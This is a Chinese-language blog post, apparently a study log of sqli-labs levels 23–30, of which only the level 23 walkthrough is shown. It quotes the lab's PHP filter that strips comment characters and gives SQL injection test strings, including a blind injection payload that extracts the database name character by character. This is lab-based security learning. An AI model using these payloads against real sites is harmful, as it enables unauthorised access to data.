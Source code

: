 ```yaml
---
title: sqli-labs的学习记录三（23-30）
index_img: /img/2018-07-20/index.jpg
date: 2018-08-17 21:51:53
tags: 
- 注入
- web
- 盲注
---
```

七夕什么的，tan90°


##### 第二十三关
测试
`id=1' and '1'='1`时返回正常，测试`id=-1' order by 1 #`就报错了，查看源代码可以看到我们递交的参数被过滤了--和#
![1](/img/2018-08-17/1.png)
```
$id=$_GET['id'];
$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);
```
所以不能用注释的方法只能闭合查询语句，我们可以套用第八关的代码进行盲注查询
```
id=1' and ascii(substr(database(),1,1)) >= '97
```